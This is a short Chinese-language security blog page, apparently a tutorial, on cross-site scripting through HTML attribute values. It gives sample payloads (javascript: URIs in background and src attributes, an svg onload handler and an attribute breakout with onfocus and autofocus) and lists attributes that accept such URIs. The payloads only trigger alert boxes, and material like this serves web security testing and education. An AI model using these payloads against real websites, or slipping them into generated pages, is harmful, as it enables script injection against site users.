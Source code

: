 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)XSS标签属性值注射

javascript:[code]形式
如:
```
<table background=''javascript:alert(/xss/)''></table>
<img src=''javascript:alert('xss');''>
<svg onload=alert(1)>
'' onfocus=javascript:alert(1) autofocus>
```
常用属性有：
```
href,
lowsrc,
bgsound,
background,
value,
action,
dynsrc
```
__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
